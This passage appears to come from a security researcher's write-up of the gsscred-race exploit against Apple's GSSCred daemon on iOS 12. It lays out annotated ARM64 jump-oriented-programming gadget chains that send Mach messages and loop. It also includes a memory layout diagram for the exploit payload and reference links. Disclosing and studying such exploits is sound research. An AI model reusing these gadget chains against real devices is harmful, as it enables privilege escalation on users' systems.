 	;; If the conditional is true, we execute from
	;; JOP_STACK_SEND_MACH_MESSAGE_AND_LOOP. This JOP stack sends the Mach message
	;; and then runs the JOP_STACK_INCREMENT_PORT_AND_BRANCH stack again.

	MOV_X0_X27__BLR_X8 (common):
			mov x0, x27
			blr x8
		x0 = REGION_MACH_MESSAGE
		pc = LDP_X3_X2_X2__BR_X3
		pc = BLR_X23__MOV_X0_X21__BLR_X25

	BLR_X23__MOV_X0_X21__BLR_X25 (MediaToolbox):
			blr x23
			mov x0, x21
			blr x25
		pc = mach_msg_send
		x0 = PORT_INCREMENT
		pc = LDP_X8_X2_X19__BLR_X8

	;; If the conditional is false, we execute from JOP_STACK_FINALIZE. This JOP
	;; stack is responsible for ending execution of the exploit payload in a way
	;; that leaves the GSSCred process running.
	;;
	;; Ideally we'd do one of two things:
	;; 	- Return to the caller in a consistent state. The caller would then
	;; 	  continue running as usual and release associated resources.
	;; 	- Cancel or suspend the current thread. This prevents further
	;; 	  corruption and resource consumption, but leaks currently consumed
	;; 	  resources.
	;;
	;; Unfortunately fixing the corruption seems difficult at best and
	;; pthread_exit() aborts in the current context. The only remaining good option
	;; is a live wait. For simplicity we simply enter an infinite loop.

	LDR_X8_X19_10__BLR_X8 (common):
			ldr x8, [x19, #0x10]
			blr x8
		x8 = BLR_X8
		pc = BLR_X8

	BLR_X8 (common):
			blr x8
		pc = BLR_X8

We can lay this program out memory as follows:

	     0   1   2   3   4   5   6   7   8   9   a   b   c   d   e   f
	    +----------------------------------------------------------------+
	  0 |AACCCCCCAAAA    KKKKKKKKLLLL    DDDDDDBBBBBBBBBBBBBBBBBB    BB  |
	100 |BB      JJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJ            |
	    +----------------------------------------------------------------+
	     0   1   2   3   4   5   6   7   8   9   a   b   c   d   e   f

	    A  =  REGION_ARG1                           =  0 - 30  @   0
	    B  =  REGION_JMPBUF                         =  0 - 70  @  98
	    C  =  REGION_X19                            =  0 - 18  @   8
	    D  =  REGION_MACH_MESSAGE                   =  0 - 18  @  78 + REGION_X19


[iOS 12]: https://support.apple.com/en-us/HT209106
[gsscred-race]: https://github.com/bazad/gsscred-race
[Heimdal]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/
[source]: https://opensource.apple.com/source/Heimdal/Heimdal-520.30.1/lib/heimcred/server.m.auto.html
[triple_fetch]: https://bugs.chromium.org/p/project-zero/issues/detail?id=1247
[Modern Objective-C Exploitation Techniques]: http://phrack.org/issues/69/9.html